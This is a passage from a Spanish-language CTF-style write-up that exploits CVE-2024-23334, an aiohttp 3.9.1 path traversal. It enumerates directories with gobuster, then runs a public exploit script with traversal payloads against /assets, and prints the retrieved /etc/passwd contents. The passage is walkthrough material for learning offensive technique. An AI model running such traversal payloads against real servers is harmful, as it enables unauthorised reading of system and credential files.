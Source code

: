 URL = [GitHub Vuln aiohttp 3.9.1](https://github.com/wizarddos/CVE-2024-23334)

Vemos que si tiene una vulnerabilida para leer archivos del sistema que se centra en la ruta por defecto que es la `/static` pero en nuestro caso no estara en esa ruta, ya que si intentamos ejecutar el `.py` para sacar el `passwd` no va a funcionar, por lo que habra que descubrir la ruta:

### Gobuster

```shell
gobuster dir -u http://localhost:8080/ -w <WORDLIST> -x html,php,txt -t 100 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://localhost:8080/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,html,php
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 403) [Size: 14]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos que solo nos saca una ruta, por lo que probaremos con esa, ejecutamos el exploit del repositorio de GitHub:

```shell
python3 exploit.py -u http://localhost:8080 -f /etc/passwd -d /assets
```

Info:

```
[+] Attempt 0
                    Payload: /assets/../etc/passwd
        
                    Status code: 404
[+] Attempt 1
                    Payload: /assets/../../etc/passwd
        
                    Status code: 404
[+] Attempt 2
                    Payload: /assets/../../../etc/passwd
        
                    Status code: 200
Respose: 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
```